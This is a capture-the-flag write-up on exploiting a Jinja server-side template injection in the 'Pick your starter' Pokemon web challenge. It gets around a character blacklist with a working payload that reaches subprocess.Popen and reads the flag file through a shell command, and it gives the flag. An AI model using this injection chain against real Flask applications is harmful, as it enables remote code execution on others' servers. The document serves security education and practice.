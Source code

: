 ```yaml
---
author: Garfield1002
layout: post
date: 2023-09-12 12:00:00 +0200
excerpt_separator: <!--more-->
tags: web pctf
title: "Pick your starter"
---
```


In this challenge, we exploit a Jinja template injection to get RCE.

<!--more-->

We have a website which displays Pokemon.

![Alt text](/assets/pctf/pick-your-starter-0.png)

The server header reports `Werkzeug` so we tried the `/console` endpoint.

> Checkout `debug=True` shell that `Werkzeug` offers and was behind the [2015 Patreon Hack](https://labs.detectify.com/2015/10/02/how-patreon-got-hacked-publicly-exposed-werkzeug-debugger/)

![](/assets/pctf/pick-your-starter-1.png)

## Vulnerability

After some experimentation, we discover that there is a **template injection attack**. Let's see the result for `/{ {7*6} }`:

![Alt text](https://raw.githubusercontent.com/BasiliCS/writeups/pctf/pctf/web/pick-your-starter-2.png)

We also notice that many characters are blacklisted including `-`, `+`, `'`, `"`, `[` and `]`.

Although this webpage is entertaining, for the rest of this challenge we will be using a Python script with `BeautifulSoup` to extract the interesting text:

```py
import requests
from bs4 import BeautifulSoup
page = requests.get("http://chal.pctf.competitivecyber.club:5555/{ {7*6} }")

soup = BeautifulSoup(page.content, "html.parser")

prefix_len = len("<h1>\"b'")
suffix_len = len("'\" isn't a starter Pokémon.</h1>")

extracted = str(soup.find_all("h1")[0])[prefix_len:-suffix_len]

print(extracted)
```

## Exploit

We would like to get RCE on the server. We want to access the Python base class `object` in order to access all subclasses of `object`, that is every available class in the program. Given the blacklist, we are able to do so using `()`. We can list all available classes with the `__subclasses__` method.

Here is the URL we built:
`http://chal.pctf.competitivecyber.club:5555/{ {().__class__.__base__.__subclasses__()} }`

The response looks like this (the final list is a lot longer, this is just an extract):

```
"lt;class 'type'&gt;, &lt;class 'async_generator'&gt;, &lt;class 'bytearray_iterator'&gt;, &lt;class 'bytearray'&gt;, &lt;class 'bytes_iterator'&gt;, &lt;class 'bytes'&gt;, &lt;class 'builtin_function_or_method'&gt;, &lt;class 'callable_iterator'&gt;, &lt;
```

We are interested in the 455th element `subprocess.Popen`, as it will give us a shell.

We cannot use the `[` or `]` characters, so we have to use the `__getitem__` method.

Finally, we want to pass our string command to the constructor. This can be easily done using `request.args.shell` and passing an argument `?shell=cat /flag.txt` to our request.

The final URL is:
`"http://chal.pctf.competitivecyber.club:5555/{ {().__class__.__base__.__subclasses__().__getitem__(455)(request.args.shell,shell=True,stdout=(1).__neg__()).communicate()} }?shell=cat ../flag.txt"`

## The flag

`PCTF(wHOS7H47PoKEmoN)`
